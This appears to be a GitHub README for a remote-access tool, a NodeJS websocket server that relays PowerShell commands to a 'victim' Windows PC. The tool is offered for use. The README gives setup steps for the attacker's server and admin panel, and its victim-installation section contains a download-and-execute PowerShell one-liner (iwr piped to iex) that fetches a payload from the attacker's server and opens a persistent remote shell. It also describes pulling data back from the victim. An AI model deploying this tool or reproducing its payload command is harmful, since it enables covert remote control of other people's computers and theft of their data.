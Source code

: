 # About Reverse-Powershell-Websocket

This is a NodeJS server with the ability to pass through Powershell commands to a victim.

## Features
* NodeJS server that handles messages from the attacker(s) & victim(s)
* Simple HTTP admin panel where you can send Powershell commands
* Passworded access for the websocket admin side
* Ability to decode a byte array response from Powershell into a binary download (for quick downloading of data)
* Reconnecting websocket payload Powershell script
* Powershell catches errors that may occur with commands & reports them back to the websocket

## Requirements
* A server capable of a NodeJS environment with Websocket package
* Remote PC (victim) with Windows 10/11

## Known Issues
* Due to the text encoding it's hard to return binaries from the Powershell response without them being malformed
* If you manage to crash/hang Powershell, it's game over.

## Installation
 1. Open ports 3394 (default websocket) & 3395 (default http) on your server
 2. Create a NodeJS environment with Websocket package
 3. Copy files from the repo into your environment
 4. Check the settings & change password in the config file
 5. Start your node server: "node index.js" or "forever start index.js"
 6. Goto "http://[server_ip]:3395/shell.socket" in browser & enter password

## Victim Installation
 1. Edit "pl.ps1" and change the websocket address to your server: $URL = 'ws://[server_ip]:3394'
 2. Execute the payload on the remote PC: "$pl = iwr http://[server_ip]:3395/pl -UseBasicParsing; iex $pl"
 3. Check admin panel for connection

## Preview
![usage]()
